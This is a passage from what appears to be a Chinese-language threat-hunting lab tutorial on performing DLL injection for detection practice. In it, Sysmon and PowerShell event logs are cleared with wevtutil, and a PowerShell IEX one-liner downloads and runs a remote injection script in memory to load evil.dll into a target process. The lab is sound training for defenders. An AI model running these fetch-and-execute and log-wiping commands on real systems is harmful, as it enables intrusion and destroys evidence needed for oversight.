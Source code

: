 [![](assets/1701606587-4805874552d1a13e50fde096f2161ede.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162739-2b859e4a-8523-1.png)

**3.2 执行注入**  
（1）开启 WireShark 捕获数据包。选择正确的网卡设备进行监听

（2）清除系统当前 Sysmon 和 PowerShell ScriptBlock 日志

```bash
以管理员身份打开 PowerShell 终端，运行以下两个命令：
```

```bash
wevtutil cl “Microsoft-Windows-Sysmon/Operational”wevtutil cl “Microsoft-Windows-PowerShell/Operational”
```

（3）准备 Powershell 脚本  
该脚本具备实现 DLL 注入的功能，目的是将 evil.dll 注入至目标进程。项目参考 PowerSpolit 或者 Faanross。以管理员打开 powershell 下载脚本并注入内存，操作如下：

```bash
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/faanross/threat.hunting.course.01.resources/main/Invoke-DllInjection-V2.ps1')
```

